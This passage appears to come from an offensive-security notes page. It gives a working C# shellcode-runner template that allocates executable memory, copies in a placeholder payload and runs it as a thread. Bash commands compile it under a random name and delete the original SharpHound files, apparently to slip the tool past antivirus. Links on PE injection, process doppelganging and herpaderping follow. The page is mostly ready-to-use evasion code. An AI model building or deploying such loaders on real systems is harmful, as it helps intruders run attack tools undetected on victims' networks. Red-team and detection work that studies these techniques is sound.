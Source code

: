 ```bash
using System;
using System.Runtime.InteropServices;

namespace Sh4rpH0und
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, ulong dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            byte[] buf = new byte[$BUFSIZE] { $BUF };
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (ulong)buf.Length, 0x1000, 0x40);
            Marshal.Copy(buf, 0, addr, buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
EOF

mcs -platform:x64 -t:winexe "/tmp/$RNDNAME.cs" -out:"$RNDNAME.exe"
file "$RNDNAME.exe"
rm "/tmp/SharpHound.exe" "/tmp/SharpHound.bin" "/tmp/$RNDNAME.cs"
```
{% endcode %}

{% hint style="info" %}
This technique is enhanced and automated [here](https://gist.github.com/snovvcrash/30bd25b1a5a18d8bb7ce3bb8dc2bae37).
{% endhint %}




## PE Injection

- [https://gist.github.com/hasherezade/e6daa4124fab73543497b6d1295ece10](https://gist.github.com/hasherezade/e6daa4124fab73543497b6d1295ece10)
- [https://xakep.ru/2018/08/27/doppelganging-process/](https://xakep.ru/2018/08/27/doppelganging-process/)
- [https://xakep.ru/2022/04/21/herpaderping-and-ghosting/](https://xakep.ru/2022/04/21/herpaderping-and-ghosting/)

